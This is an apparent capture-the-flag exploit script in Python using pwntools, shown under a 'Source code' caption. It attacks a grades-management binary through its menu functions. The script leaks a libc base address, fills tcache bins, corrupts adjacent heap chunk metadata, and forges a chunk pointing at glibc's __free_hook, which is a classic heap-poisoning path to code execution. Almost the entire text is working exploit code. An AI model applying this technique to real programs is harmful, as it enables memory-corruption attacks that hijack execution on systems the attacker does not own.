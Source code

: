 ```python
add_cat(100, 6)          #3

generate()


p.recvuntil("#3:")

p.recvuntil("Grades: ")


# truly get into the Python spirit
libc.address = u64(''.join(map(lambda x: chr(int(x)) if int(x) >= 0 else chr(int(x)+256), p.recvline().strip().split(", "))).ljust(8, "\x00")) - 4111520       # make sure to calculate two's complement if negative


print("libc address", hex(libc.address))

add_cat(100, 0x3d0)     #4


for i in range(7):
    add_cat(100, 0xf0)      #5, 6, 7, 8, 9, 10, 11
    
    

add_cat(100, 0xf0)      #12

add_cat(100, 0x18)      #13

add_cat(100, 0xf0)      #14



for i in range(7):
    set_grades(i+5, 0x80, [1 for i in range(0x81)])



set_grades(12, 0x500, [1 for i in range(0x501)])


set_grades(13, 'n', [0x41 for i in range(0x10)] + [0x20, 0x1] + [0x0 for i in range(6)] + [0])


set_grades(14, 0x500, [1 for i in range(0x501)])


#set_grades(13, 'n', [0x1 for i in range(0x19)])


set_grades(13, 0x30, [0x1 for i in range(0x31)])


forge = ""
forge += '\x00'*0xb0
forge += p64(0) + p64(0x69)

forge += p64(libc.sym["__free_hook"])



set_grades(1, 0x170, [ord(i) for i in forge] + [0 for i in range(0x171 - len(forge))])
```